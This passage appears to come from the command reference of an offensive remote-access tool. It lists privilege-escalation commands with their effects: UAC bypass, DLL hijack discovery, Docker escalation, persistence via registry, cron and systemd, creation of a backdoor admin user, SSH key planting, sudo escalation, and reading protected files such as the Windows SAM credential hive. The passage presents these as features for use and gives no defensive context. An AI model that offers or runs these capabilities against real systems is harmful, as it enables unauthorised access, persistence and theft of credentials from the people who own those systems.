 Response: Lists sensitive files (credentials, keys, configs)

```
priv_weak_perms
```

Response: Lists files with exploitable permissions

```
priv_uac_bypass
```

Response (Windows): Attempts UAC bypass using multiple methods

```
priv_dll_hijack
```

Response (Windows): Lists DLL hijacking opportunities

```
priv_docker
```

Response: Attempts Docker-based privilege escalation

```
priv_persist
```

Response: Creates persistence mechanisms (registry, cron, systemd)

```
priv_user admin SecurePass123
```

Response: Creates backdoor user with admin privileges

```
priv_ssh_key "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC..."
```

Response: Plants SSH key in authorized_keys

```
priv_sudo UserPassword123
```

Response: Attempts sudo escalation with provided password

##### Admin File Access (New!)

```
priv_read_file C:\Windows\System32\config\SAM
```

Response: Reads admin-protected text files with automatic fallback methods

```
priv_read_binary C:\Windows\System32\cmd.exe
```

Response: Reads binary files and returns base64-encoded content

```
priv_list_dir C:\Windows\System32\config
```
